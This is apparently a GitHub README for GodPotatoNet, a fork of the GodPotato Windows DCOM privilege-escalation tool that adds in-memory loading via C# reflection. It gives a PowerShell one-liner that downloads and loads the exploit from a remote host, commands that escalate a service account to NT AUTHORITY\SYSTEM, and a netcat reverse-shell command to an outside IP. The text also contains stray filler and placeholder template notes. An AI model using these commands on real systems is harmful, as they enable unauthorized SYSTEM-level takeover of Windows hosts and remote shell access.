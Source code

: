 # GodPotatoNet

This is a temporary push. Please ignore. I am drunk.

| :exclamation:  Information   |
|-----------------------------------------|
| This project is now DEPRECRATED, and has been succeeded by [SigmaPotato](https://github.comt/tylerdotrar/SigmaPotato). |

> [!NOTE]  
> Highlights information that users should take into account, even when skimming.

> [!IMPORTANT]  
> Crucial information necessary for users to succeed.

> [!WARNING]  
> Critical content demanding immediate user attention due to potential risks.


This fork of [GodPotato](https://github.com/BeichenDream/GodPotato) aims to expand upon the usability of BeichenDream's hard work.

![HelpMessage](https://cdn.discordapp.com/attachments/855920119292362802/1110988288031993917/image.png)

The predominant functionality I wanted to add was support for C# reflection, while refining some general usage.

```powershell
# C# Reflection in PowerShell
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```

**Current Status:**
- Initial support for C# reflection. (``v1.0.0``)
- Refined help message. (``v1.0.0``)
- Refine argument input so calling from memory is more intuitive. (``WIP``)
- Fix (assumptive) thread handling issue present ONLY when calling from memory. (``WIP``)

**Known Bugs:**
- When called from memory, privilege escalation is only successful on the first execution -- every following attempt fails to impersonate the security context token.  Currently the only fix is to load ``GodPotatoNet`` into a new terminal session.

**Affected Windows Versions:**
- Windows Server 2012 - Windows Server 2022
- Windows 8 - Windows 11


### Original GodPotato
---

Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.


Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato

**Examples:**

Use the program's built-in Clsid for privilege escalation and execute a simple command

```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)

Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"
```

![](images/2.png)

Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### Thanks

- zcgonvh
- skay

### License

[Apache License 2.0](/LICENSE)
